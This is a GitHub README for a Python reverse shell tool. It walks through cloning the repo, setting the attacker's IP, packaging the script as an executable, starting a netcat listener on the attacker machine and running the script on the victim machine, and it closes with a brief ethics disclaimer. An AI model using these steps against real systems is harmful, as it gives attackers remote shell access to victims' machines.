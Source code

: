 # ReverseShell | Written In <a href="https://www.python.org/"><img src="https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54" alt="Python Badge"/></a>
- A python3 reverseshell.

![revsh](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use this reverseshell?:snake:

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```
- Now you need to navigate to the ReverseShell directory.
- You will find a file called >> reverseshell.py:

- IMPORTANT: You need to change the ipv4 address in the script:
---
![exa](https://github.com/Keyj33k/profiles/blob/main/profile/revsh.png?raw=true)
---
- IMPORTANT: Use this command to install the requirements:
```
pip install -r requirements.txt
```
- OPTIONAL: You can make a executable using command:
```
pyinstaller --onefile reverseshell.py
```
- PyInstaller command not found?
```
pip install pyinstaller
```

### After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```
- NC command not found (Debian/-based)?
```
sudo apt-get install -y netcat
```

- On the vivtim machine:
```
python3 reverseshell.py 
```
# Explained:

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

Note:
- This tool is for educational and ethical purposes only. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

---
![pypy](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/pypy.jpeg)
---
---
  
- Tested on 5.17.0-kali3-amd64, 5.15.0-40-generic-Ubuntu
  
---



